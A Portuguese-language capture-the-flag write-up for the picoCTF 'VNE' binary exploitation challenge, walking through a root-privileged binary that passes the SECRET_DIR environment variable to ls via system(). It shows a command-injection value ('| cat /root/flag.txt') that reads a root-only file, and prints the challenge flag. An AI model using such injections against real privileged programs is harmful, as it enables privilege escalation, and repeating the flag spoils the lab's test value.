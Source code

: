 # VNE
## Descrição do Desafio:
Author: Junias Bonou \
Plataforma: [PicoCTF](https://play.picoctf.org/practice/challenge/387?category=6&page=1) \
Categoria: Binary Exploitation \
Dificuldade: Média \
Data: 2023 \
Descrição:
> We've got a binary that can list directories as root, try it out !!
## Passo a Passo da Solução
### 1. Entendendo como o binário funciona
Este desafio é feito por meio de conexão `ssh`, então não há nenhum arquivo para download. Com a conexão estabelecida, nós temos acesso ao bash da máquina, e no diretório do usuário há um arquivo executável `bin` que se executado de primeira vai exibir o erro:
```bash
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```
Como próximo passo, setamos a variável `SECRET_DIR` para algum diretório e vemos qual vai ser a saída:
```bash
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root: 
config-box.py  metadata.json  profile
```
E com isso descobrimos que o arquivo lista os arquivos dentro de um diretório, conforme dito na descrição. Mas algo ainda não está claro, que é como este arquivo está listando os arquivos. Para isso podemos digitar qualquer coisa dentro da variável para ver se ocorre algum erro.
```bash
ctf-player@pico-chall$ export SECRET_DIR=---
ctf-player@pico-chall$ ./bin
Listing the content of --- as root: 
ls: unrecognized option '---'
Try 'ls --help' for more information.
Error: system() call returned non-zero value: 512
```
Pronto, descobrimos que o arquivo está usando a `syscall` do comando `ls`.
### 2. Solução
Aqui nós já sabemos quase tudo, só não sabemos onde está a flag e como pegar o conteúdo de um arquivo. Para encontrar a flag basta imprimir o conteúdo de alguns diretórios que não temos permissão para acessar, no caso a pasta `root` foi a primeira a ser testada, e lá estava o arquivo:
```bash
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
A parte de pegar o conteúdo de um arquivo é simples de se fazer, porque se considerarmos que o binário não está tratando o conteúdo da `SECRET_DIR`, podemos tentar passar outro comando via pipe. E por sorte, o binário não está tratando o conteúdo.
```bash
ctf-player@pico-chall$ export SECRET_DIR="| cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of | cat /root/flag.txt as root:
```
### Flag
`picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
